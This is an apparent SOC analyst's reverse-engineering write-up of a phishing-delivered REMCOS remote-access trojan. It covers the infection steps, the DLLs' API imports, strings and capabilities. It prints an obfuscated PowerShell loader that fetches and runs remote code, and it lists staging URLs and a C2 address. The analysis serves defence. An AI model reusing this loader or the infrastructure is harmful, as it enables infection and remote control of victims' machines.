

# Malware reverse

SOC Analyst: MauriceLambert mauricelambert434@gmail.com

## Context

The malware were sent by email Phishing.

## Steps

1. Start the JScript script
2. Get on https://pastebin.com/raw/AjnLbCjK the following URL https://wtools.io/code/dl/bNGX
3. Create the powershell payload:

```powershell
$YgNut = "https://wtools.io/code/dl/bNGX";
$YgNut = $YgNut.Replace('↓:↓', 'A');
[Byte[]] $dVqHc = [System.Convert]::FromBase64String( $YgNut );
[System.AppDomain]::CurrentDomain.Load($dVqHc).GetType('ClassLibrary3.Class1').GetMethod('prFVI').Invoke($null, [object[]] ('hgyMdbwq/war/moc.nibetsap//:sptth' , 'DHL-Transport_Label_Shipment_Receipt.js' , 'true' ) ); // 'hgyMdbwq/war/moc.nibetsap//:sptth'[::-1] -> 'https://pastebin.com/raw/qwbdMygh' get on the URL -> https://wtools.io/code/dl/bOhE
```

4. Execute: `powershell -command <payload>`
5. Dowload `fgfgjh.txt` from `https://wtools.io/code/dl/bNGX`
6. Execute the DLL functions from powershell
7. Deobfuscate/decrypt the payload
8. Download some file like: `yuyuuu.txt` from `https://wtools.io/code/dl/bOhE`
9. Save downloaded contents in a temp file
10. The tempfiles are 2 powershell scripts
11. Execute the first script to create persistance using registry key
12. Start a `cmd.exe` and delete the JScript script after a `ping 127.0.0.1`
13. The second script is launched (this is the malware and contains a new dotnet DLL)
14. The malware start `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
15. The malware create the `C:\ProgramData\remcos\logs.dat` file
16. The malware create tls connection to `180.214.236.46:4848` (the C2)

## DLLs static analysis

### DotNet DLL launched by PowerShell

1. Compilation datetimestamp: 14/08/2051 00:28:33 (bad timestamp, modified by hackers)
2. Obfuscation
3. Use `RSA`, `AES` and custom cryptography
4. Call `kernel32`
    - `LoadLibrary`
    - `GetProcAddress`
    - `FindResourceA`
    - `VirtualAlloc`
    - `WriteProcessMemory`
    - `VirtualProtect`
    - `OpenProcess`
    - `CloseHandle`
    - ...
5. Timestamp written in C# code (not obfuscated) `new DateTime(2023, 7, 10)`
6. Use `Eziriz's .NET Reactor` to obfuscate code

### Native DLL

1. Compilation (32bit) datetimestamp: `Sun Feb 19 11:16:49 2023`
2. Win32 API calls
    - `LoadLibraryA`
    - `GetProcAddress`
    - `VirtualProtect`
    - `URLDownloadToFileW`
    - `CoGetObject`
    - `InternetOpenW`
    - `waveInOpen`
    - ...
3. Packed with UPX

### Unpacked malware

**[REMCOS](https://breakingsecurity.net/remcos/)**, probably in version: `4.4.0 Pro` (that match the compilation time: v4.4.0 | 19 Feb 2023, https://breakingsecurity.net/remcos/changelog/).

Hash: [8c16fb1dcc7a6ce83405127cd2b2ec6eadf940bf1fd2a75c0faf074a60fda7c8](https://www.virustotal.com/gui/file/8c16fb1dcc7a6ce83405127cd2b2ec6eadf940bf1fd2a75c0faf074a60fda7c8)

Detected as [REMCOS malware](https://any.run/malware-trends/remcos), [REMCOS](https://www.malwarebytes.com/blog/threat-intelligence/2021/07/remcos-rat-delivered-via-visual-basic), [REMCOS](https://www.checkpoint.com/cyber-hub/threat-prevention/what-is-malware/remcos-malware), [REMCOS](https://research.checkpoint.com/2023/guarding-against-the-unseen-investigating-a-stealthy-remcos-malware-attack-on-colombian-firms/).

#### Entropy

3 high entropy peaks (7.2 - 7.95) in `.rdata`, that can be small data encrypted or compressed. There is no data at the end of the executable.



#### Strings

```
         ______                              
        (_____ \                             
         _____) )_____ ____   ____ ___   ___ 
        |  __  /| ___ |    \ / ___) _ \ /___)
        | |  \ \| ____| | | ( (__| |_| |___ |
        |_|   |_|_____)_|_|_|\____)___/(___/ 
        Remcos v
 BreakingSecurity.net
```

 - Encryption features
     - AES
     - TLS
     - Certificate client
     - Elliptic curve for encryption
         - Base16 encoded encryption constants
 - WebCam feature
 - Keylogger feature
 - Command execution
 - Probably steal Google Chrome/Firefox/IE passwords/cookies
 - Probably steal clipboard data

#### Copyright

> `Copyright (c) by P.J. Plauger, licensed by Dinkumware, Ltd. ALL RIGHTS RESERVED.`
>> https://www.dell.com/support/kbdoc/en-us/000124800/what-are-threat-indicators-for-dell-endpoint-security-suite-enterprise-and-dell-threat-defense

#### Imported functions

1. Ordinal import from `WS2_32.dll`
    - `0x34` gethostbyname
    - `0x13` send
    - `0x73` WSAStartup
    - `0x3` closesocket
    - `0xc` inet_ntoa
    - `0x9` htons
    - `0x8` htonl
    - `0x37` getservbyname
    - `0xf` ntohs
    - `0x38` getservbyport
    - `0x33` gethostbyaddr
    - `0xb` inet_addr
    - `0x70` WSASetLastError
    - `0x6f` WSAGetLastError
    - `0x10` recv
    - `0x4` connect
    - `0x17` socket
2. Internet functions
    - URL
    - Internet
3. Wave/sound functions
4. Interface functions
    - clipboard functions
    - Windows functions
    - Cursor / Icon functions
    - GDI and Images functions
5. Execute command
6. COM object functions
7. Registry functions
8. User and privileges functions
9. System informations
10. Thread and memory functions (can run shellcode)
11. System informations functions
12. Processes informations
13. Temp file functions
14. Lock/Unlock functions
15. Read process memory function
16. Environment variables functions
17. Date and time functions
18. Sleep function
19. File and directory functions
20. Debugger detection function
21. Library and function functions (can import DLLs and use any functions from ordinal or name)
   
## REMCOS

`REMCOS` is a software sent as RAT by breakingsecurity. This software is used by lot of hackers to get a full access on a remote Windows.

 - https://thehackernews.com/2023/03/stealthy-dbatloader-malware-loader.html
 - https://thehackernews.com/2023/08/new-attack-alert-freezers-injector.html
 - https://thehackernews.com/2020/11/interpol-arrest-3-nigerian-bec-scammers.html
 - https://thehackernews.com/2023/10/qakbot-threat-actors-still-in-action.html
 - https://thehackernews.com/2023/02/cert-ua-alerts-ukrainian-state.html
 - https://thehackernews.com/2023/07/fruity-trojan-uses-deceptive-software.html
